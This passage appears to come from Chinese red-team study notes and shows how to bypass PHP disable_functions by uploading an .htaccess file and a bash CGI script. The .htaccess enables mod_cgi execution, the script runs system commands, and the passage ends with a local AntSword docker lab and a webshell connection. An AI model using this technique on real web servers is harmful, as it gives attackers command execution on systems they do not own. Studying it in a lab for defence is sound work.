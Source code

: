 **绕过disable_functions**

利用 mod_cgi 来绕过 disable_functions 思路也很清楚了. 利用 htaccess 覆盖 apache 配置，增加 cgi 程序达成执行系统命令，事实上同上传 htaccess 解析 png 文件为 php 程序的利用方式大同小异。

在本地准备好 `htaccess` 文件和要执行命令的 `cgi 文件 `, 如下

test.xxx:

```
#!/bin/bash
echo&whoami
```

.htaccess:
```
Options +ExecCGI
AddHandler cgi-script .xxx
```

将两个文件上传至服务器，使用 php 的 chmod 函数给 test.xxx 添加可执行权限。

`chmod('test.xxx',0777)`

访问目标 `xxx` 文件即可执行命令

**蚁剑靶场测试**

```
git clone https://github.com/AntSwordProject/AntSword-Labs.git
cd AntSword-Labs/bypass_disable_functions/3
docker-compose up -d
```

连接 http://127.0.0.1:18080/index.php	ant

![](../../../../../assets/img/Security/RedTeam/语言安全/PHP安全/bypass_disable_function/5.png)

---